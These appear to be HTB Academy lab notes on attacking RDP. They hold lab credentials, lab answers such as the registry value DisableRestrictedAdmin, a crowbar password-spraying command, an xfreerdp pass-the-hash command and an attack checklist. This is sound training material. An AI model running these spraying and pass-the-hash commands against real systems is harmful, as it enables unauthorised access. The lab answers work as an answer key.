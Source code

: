 
## 🎯 HTB Academy Lab Scenarios

### Scenario 1: Initial RDP Access
```bash
# Target: 10.129.203.13 (ACADEMY-ATTCOMSVC-WIN-01)
# Credentials: htb-rdp:HTBRocks!

# Connect using provided credentials
rdesktop -u htb-rdp -p HTBRocks! 10.129.203.13
# or
xfreerdp /u:htb-rdp /p:HTBRocks! /v:10.129.203.13

# Task: Find file on Desktop
# Answer: pentest-notes.txt
```

### Scenario 2: Registry Key Knowledge
```cmd
# Question: Which registry key needs to be changed to allow Pass-the-Hash with RDP?
# Answer: DisableRestrictedAdmin

# Registry path: HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa
# Value: DisableRestrictedAdmin (REG_DWORD) = 0x0
```

### Scenario 3: Administrator Access
```bash
# Task: Connect via RDP with Administrator account and find flag.txt

# Potential attack vectors:
# 1. Password spraying against Administrator account
crowbar -b rdp -s 10.129.203.13 -u administrator -C passwords.txt

# 2. Pass-the-Hash if NT hash is available
xfreerdp /v:10.129.203.13 /u:administrator /pth:HASH_VALUE

# 3. Session hijacking if another admin is logged in
# Look for flag.txt in common locations:
# - C:\flag.txt
# - C:\Users\Administrator\Desktop\flag.txt
# - C:\Users\Administrator\Documents\flag.txt
```

---

## 📋 RDP Attack Checklist

### Discovery & Enumeration
- [ ] **Port scanning** - TCP/3389 detection
- [ ] **Version enumeration** - Windows version identification
- [ ] **Certificate analysis** - Self-signed vs CA certificates
- [ ] **Domain membership** - Standalone vs domain-joined
